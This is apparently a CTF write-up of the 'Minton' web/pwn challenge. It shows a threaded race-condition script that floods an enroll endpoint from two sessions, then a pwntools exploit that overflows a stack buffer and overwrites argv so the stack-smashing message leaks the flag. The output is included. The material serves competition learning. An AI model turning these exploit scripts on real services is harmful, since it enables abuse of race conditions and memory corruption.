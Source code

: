 # 0xBAD Minton (web/pwn, 14 solved, 740p)

## Web part

First part of the task is on the Web side.
We get access to some webpage where we can register, and sign-up for 0-3 "courses".
There is really nothing more, no SQLi in forms or anything else.

In the root of the page we get access to some interesting files:

- [backend server binary](backend_server)
- Todo note `Quickly complete netcat client version on 178.128.84.72:9997`

We can connect via netcat to given endpoint, and the binary we just found is actually listening there for connections.
Once we reverse engineer the binary a bit, we come to the conclusion, that we could exploit it, if we manage to sign-up for more than 3 courses.
This has to be done on the web side.

We thought that maybe a simple race condition will work, but it didn't.
Then we tried to do race condition, with multiple sessions, and it worked just fine.

We create 2 different user session on the webpage.
Then we try to add courses from both of them at the same time:

```python
import threading
import requests
from queue import Queue

max = 100
threads = Queue()
init_barrier = threading.Barrier(max * 2)


def enroll(cookie):
    threads.get()
    init_barrier.wait()
    url = "http://178.128.84.72/login.php?action=enroll"
    print(requests.get(url, cookies={"PHPSESSID": cookie}).text)
    threads.task_done()


def worker2(index):
    enroll("33hoabtfv6t8amoovlrjecqun5")


def worker(index):
    enroll("qq5kqe8lbeim1md44m2bnuajr4")


def main():
    for i in range(max):
        thread = threading.Thread(target=worker, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max):
        thread = threading.Thread(target=worker2, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max * 2):
        threads.put(i)
    threads.join()


main()
```

We go with 2 sessions, and 100 threads each.
After we run this, we get user with 6 courses, which is enough to exploit the binary.

## Pwn part

Now to explain why we needed more than 3 sessions.

The serwer allows us to load our user from mysql database using a token then input our courses names and print them.

![example.png](example.png)

To do so, it allocates 3080 bytes on the stack:

``` c++
char s[3080]; // [rsp+290h] [rbp-C10h]

 ...
if ( courses_num )
{
    for ( j = 0; j < courses_num; ++j )
    {
      printf("#%d Oh I heard that you already enrolled a course\n", j);
      v3 = &s[1024 * (signed __int64)(signed int)j];
      printf("What is the course name?> ");
      read(0, v3, 1024uLL);
    }
}
```

Now that we have more courses than space on stack we can try to overwrite some of the stack!

The flag is already read into a global variable for us, cool!
``` c++
int read_flag()
{
  int buf_4; // ST34_4

  alarm(0x14u);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  chdir((const char *)(unsigned int)"/home/badminton/");
  buf_4 = open((const char *)(unsigned int)"flag", 0);
  read(buf_4, (void *)(unsigned int)&unk_604070, 0x40uLL);
  return close(buf_4);
}
```

Unfortunately we cannot just write the flag's pointer onto stack and then read read the outcome so we'll have to come up with something else.

![checksec.png](checksec.png)

Maybe we can use the stack cookie to our advantage?

https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/readme-200

By overwriting the pointers in argv and triggering stack smashing we could leak the flag as the programs name, let's try it out!

``` python
from pwn import *
context.log_level = 'debug'

token = '0010318d0edf64b4a79634c005aac0244bc794f0014cbe89fd6356807a806509'

r = remote('178.128.84.72', 9997)

print(r.recvuntil('Token>'))

r.send(token + '\n')

for i in range(3):
    print(r.recvuntil('What is the course name?>'))
    r.send("Bzorp")

for i in range(3):
    r.recvuntil('What is the course name?>')
    r.send(p64(0x0000000000604070)*(1024 / 8))

r.interactive()
``` 

We're just basically hammering the whole stack with the flag's address.

```
----------------BADMINTON TRAINING----------------
1. Push-up
2. Running
3. Give up
> $ 3
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x61 bytes:
    '*** stack smashing detected ***: MeePwnCTF{web+pwn+oldschool+stuff+stack+terminated}\n'
    ' terminated\n'
*** stack smashing detected ***: MeePwnCTF{web+pwn+oldschool+stuff+stack+terminated}
 terminated
[*] Got EOF while reading in interactive
```

It worked!

